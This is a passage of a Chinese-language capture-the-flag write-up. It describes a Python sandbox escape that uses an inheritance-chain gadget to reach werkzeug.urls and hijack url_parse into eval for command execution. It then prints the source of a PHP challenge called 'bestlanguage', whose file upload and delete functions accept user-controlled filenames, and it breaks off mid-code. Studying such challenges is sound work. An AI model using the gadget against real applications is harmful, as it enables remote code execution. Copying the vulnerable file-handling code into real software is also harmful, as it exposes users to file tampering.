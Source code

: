 因此payload 利用`exec`处理了`eval`的返回值 从而执行命令（随便会报错，但是命令已经提前执行）

xXXxXXx的值可用pysandbox1来处理
![UnFMNV.png](https://s1.ax1x.com/2020/07/09/UnFMNV.png)


### ③方法三

预期解：劫持函数

通过继承链调用 `url_parse`
```python
request.__class__._get_current_object.__globals__['__loader__'].__class__.__weakref__.__objclass__.contents.__globals__['__loader__'].exec_module.__globals__['_bootstrap_external']._bootstrap.sys.modules['werkzeug.urls']
```

然后劫持成`eval` 参数为`/index.php` 即可控 因此执行命令


## bestlanguage

源码
```php
<?php
class IndexController extends Controller
{
    public function init(){
        if($_SERVER["REMOTE_ADDR"] !== "127.0.0.1" && strpos($_SERVER["REMOTE_ADDR"],"192.168.") !== 0 && strpos($_SERVER["REMOTE_ADDR"],"10.") !== 0 )  {
            die("admin only");
        }
        if(!file_exists("/var/tmp/".md5($_SERVER["REMOTE_ADDR"]))){
            mkdir("/var/tmp/".md5($_SERVER["REMOTE_ADDR"]));
        }
    }
    public function rm(){
        if(strpos($_POST["filename"], '../') !== false) die("???");
        if(file_exists("/var/".$_POST["filename"])){
            if(is_dir("/var/".$_POST["filename"])){
                rmdir("/var/".$_POST["filename"]);
                echo "rmdir";
            }
            else{
                unlink("/var/".$_POST["filename"]);
                echo "unlink";
            }
        }
    }
    public function upload()
    {

        if(strpos($_POST["filename"], '../') !== false) die("???");
        file_put_contents("/var/tmp/".md5($_SERVER["REMOTE_ADDR"])."/".$_POST["filename"],base64_decode($_POST["content"]));
        echo "/var/tmp/".md5($_SERVER["REMOTE_ADDR"])."/".$_POST["filename"];
    }

    public function moveLog($filename)
    {

        $data =date("Y-m-d");
        if(!file_exists(storage_path("logs")."/".$data)){
            mkdir(storage_path("logs")."/".$data);
        }
        $opts = array(
```